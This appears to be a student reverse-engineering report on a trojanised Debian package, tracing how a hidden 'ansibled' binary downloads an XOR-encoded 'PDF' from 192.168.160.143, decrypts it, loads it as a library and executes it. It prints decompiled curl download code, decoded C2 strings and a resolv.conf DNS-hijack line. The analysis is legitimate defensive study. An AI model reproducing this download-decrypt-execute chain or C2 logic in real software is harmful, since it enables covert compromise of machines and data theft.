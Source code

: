# Project N2
# Definition
It was propsoed to us to try to analyse using reverse engineering a suspicius code that was found on campus using Reverse engineering techniques that were thought trought the semester. \
We need to find a response to the following questions:\
- **Do we really have a malware?**\
- **How the malware works and why a deb is used?**\
- **Are other hosts involved?**\
- **What is the potential impact to our organization?**\

# Strategy

First of all we started with a simple search of what is a deb and what are their components. This is the relevant information that we found:
- Deb is the file format that debian uses in its destributioiins
- This archive has 3 files: debian-binary (Containing package format number), control archive (Containig package name, version, dependencies and maintainer) and data archive(Containg the installable files)

## Integrity check 
As we checked there was too many files a shell script was made (with the help of stack overflow) to check the md5 of interely folders so we can compare them witha  genuine version

## Control
Control is a file that contains the dependencies needed, seeing that the md5 didn't match the original one  we checked this file which contained two added depedencies:
- libcurl4-openssl-dev 
- curl
![S](img/image.png)

This may suggest that the malware needs to comunicate with an external server to **extravigate information** or **download extra code** from one.

## Data
The false deb has an extra lib folder that is suspicious, besides that, the usr folder has a folder where the hashes don't match with the original one.
![](img/image-1.png)
That folder has an extra file named **ansibled**


### Ansibled
#### Strings
Running the strings command can  give us some useful information, like this:

![alt text](img/image-2.png)

We can see this file is triying to connect to some socket and using the extra libraries mentioned before
####  File analysis with ghidra
This file flow is based on signal handlers and  structures. The structure "DAT_00104190" is considered as a variable and its value will determine if the code will curl or will execute the pdf, as it is in a infinite cycle of sleeps until it detects the pdf and then runs the ReadFile functions.  The first part of the code where a file ansibled.lock is deleted was the only one we could't find a reason to.
##### Encript
Is a function started at `0x001016da` that XOR's a the second argument with the third and stores the result in the first.
![alt text](img/encript.png)
#### Threads
The main function executes a thread that is always listening and waits for a connection to be made to a port a reads it and saves it on a variable.
#### Singal handler
On memory address `00101b37`is a function that will be the handler of a signal.
![Signal handler](img/SignalHandler.png)
This function points to two others
##### FUN_00101758
At `00101758` this function decodes two strings
-  From `"m6/2m%7+&\'l2&$` to `/tmp/guide.pdf`
-  From `*662xmms{plstzlstrlsvqm%7+&\'l2&$` to `http://192.168.160.143/guid?e.pdf`

Next the code 
```
  local_10 = curl_easy_init();
  if (local_10 != 0) {
    local_18 = fopen(local_a8,"wb");
    local_1c = 0x2712;
    curl_easy_setopt(local_10,0x2712,local_68);
    local_20 = 0x4e2b;
    curl_easy_setopt(local_10,0x4e2b,0);
    local_24 = 0x2711;
    curl_easy_setopt(local_10,0x2711,local_18);
    local_28 = curl_easy_perform(local_10);
    curl_easy_cleanup(local_10);
    if (local_28 != 0) {
      unlink(local_a8);
    }
    fclose(local_18);
  }
```
after serching for a bit we've found this example that very looks like the code above in "https://curl.se/libcurl/c/curl_easy_init.html"
![](img/ExampleCurl.png)
With the all evidence above we can see that this code is doing curl of a PDF file. 
We curled the pdf to see what it was and got a "500 comandos de Linux explicados".  We thought it could be a Poliglot so we checked the hash with a similar one we found online.
- Online:
![alt text](img/Hash1.png)
- What we Curled:
![alt text](img/Hash2.png)
It didn't match

- Online size:   1527251
-  We curled size:  1592968

##### FUN_00101a07 ->ReadFile
This is the second function of the handler and will help us tell what is done with the file.
##### FUN_001019b4-> File decription
Give an pointer, a size and a byte, it XOR's byte a byte the byte and the next byte in the pointer
![alt text](img/Filedecription.png)
##### FUN_00101870->RunSecretCode
This code works right after the File decription function, after the pdf get decripted this functions copies the pdf to ram with the name found on "0x64656c6269736e61". Then it loads the pdf as a library and looks for the symbol contained on "&DAT_001020d3" that is "RUN". After knowing the adress of that symbol it sends the code to run from there.
![alt text](/img/RunSecret.png)
## PDF analisys
A code to XOR all the PDF was made. The first function to execute would be the "run" one.

### Run
Run is the first function called in the PDF, it starts creating called "ansibled.lock" in /tmp, this file was eleminated in the ansibled file, leving us to belive that it is to not crash in case this malware is run several times. After that proc() function is called~

### Proc

#### initConnection
This fucntion checks the sock state, adds one to the list of the number of servers goes to the structure CommService to get the string "192.168.160.143:12345", extracts the port from the IP and creates a socket IPV4. Using those parameters calss ConnectTimeout

#### connectTimout
This functions tries to connect to the IP and port especified in a given timeframe.
It starts getting the file status flags 

#### UpdateNameSvrs
This function writes in "ect/resolve.conf" file the  line "nameserver 193.136.172.20\nnameserver 8.8.8.8\n" changin the ususal DNS server, probably making an attacker controlled machine the default DNS

#### RecvLine
(socket, buff, len)
Recebe mensagens no socket byte a byte e guarda no bufffer,  retorna o tamano dos dados ou -1 se falhar
